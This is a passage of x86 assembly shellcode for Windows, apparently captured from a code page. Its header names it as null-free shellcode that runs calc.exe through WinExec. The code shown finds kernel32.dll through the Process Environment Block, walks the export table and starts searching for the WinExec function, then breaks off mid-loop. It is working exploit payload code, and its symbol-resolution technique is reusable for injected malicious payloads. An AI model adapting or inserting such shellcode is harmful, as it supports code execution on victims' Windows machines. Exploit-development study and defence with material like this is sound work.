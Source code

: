 ```asm
; # Title:  Windows\x86 - Null - Free WinExec Calc.exe Shellcode(195 bytes)
		; # Shellcode Author : Bobby Cooke
		; # Date : 2020 - 02 - 21
		; # Technique : PEB & Export Directory Table
		; # Tested On : Windows 10 Pro(x86) 10.0.18363 Build 18363

		_start :
		; Create a new stack frame
		mov ebp, esp; Set base stack pointer for new stack - frame
		sub esp, 0x20; Decrement the stack by 32 bytes

		; Find kernel32.dll base address
		xor ebx, ebx; EBX = 0x00000000
		mov ebx, [fs:ebx + 0x30]; EBX = Address_of_PEB
		mov ebx, [ebx + 0xC]; EBX = Address_of_LDR
		mov ebx, [ebx + 0x1C]; EBX = 1st entry in InitOrderModuleList / ntdll.dll
		mov ebx, [ebx]; EBX = 2nd entry in InitOrderModuleList / kernelbase.dll
		mov ebx, [ebx]; EBX = 3rd entry in InitOrderModuleList / kernel32.dll
		mov eax, [ebx + 0x8]; EAX = &kernel32.dll / Address of kernel32.dll
		mov[ebp - 0x4], eax; [EBP - 0x04] = &kernel32.dll

		; Find the address of the WinExec Symbol within kernel32.dll
		; +The hex values will change with different versions of Windows

		; Find the address of the Export Table within kernel32.dll
		mov ebx, [eax + 0x3C]; EBX = Offset NewEXEHeader = 0xF8
		add ebx, eax; EBX = &NewEXEHeader = 0xF8 + &kernel32.dll
		mov ebx, [ebx + 0x78]; EBX = RVA ExportTable = 0x777B0 = [&NewExeHeader + 0x78]
		add ebx, eax; EBX = &ExportTable = RVA ExportTable + &kernel32.dll

		; Find the address of the Name Pointer Table within kernel32.dll
		; +Contains pointers to strings of function names - 4 - byte / dword entries
		mov edi, [ebx + 0x20]; EDI = RVA NamePointerTable = 0x790E0
		add edi, eax; EDI = &NamePointerTable = 0x790E0 + &kernel32.dll
		mov[ebp - 0x8], edi; save& NamePointerTable to stack frame

		; Find the address of the Ordinal Table
		;   -2 - byte / word entries
		mov ecx, [ebx + 0x24]; ECX = RVA OrdinalTable = 0x7A9E8
		add ecx, eax; ECX = &OrdinalTable = 0x7A9E8 + &kernel32.dll
		mov[ebp - 0xC], ecx; save& OrdinalTable to stack - frame

		; Find the address of the Address Table
		mov edx, [ebx + 0x1C]; EDX = RVA AddressTable = 0x777CC
		add edx, eax; EDX = &AddressTable = 0x777CC + &kernel32.dll
		mov[ebp - 0x10], edx; save& AddressTable to stack - frame

		; Find Number of Functions within the Export Table of kernel32.dll
		mov edx, [ebx + 0x14]; EDX = Number of Functions = 0x642
		mov[ebp - 0x14], edx; save value of Number of Functions to stack - frame

		jmp short functions

		findFunctionAddr :
		; Initialize the Counter to prevent infinite loop
			xor eax, eax; EAX = Counter = 0
			mov edx, [ebp - 0x14]; get value of Number of Functions from stack - frame
			; Loop through the NamePointerTableand compare our Strings to the Name Strings of kernel32.dll
			searchLoop :
		mov edi, [ebp - 0x8]; EDI = &NamePointerTable
			mov esi, [ebp + 0x18]; ESI = Address of String for the Symbol we are searching for
			xor ecx, ecx; ECX = 0x00000000
```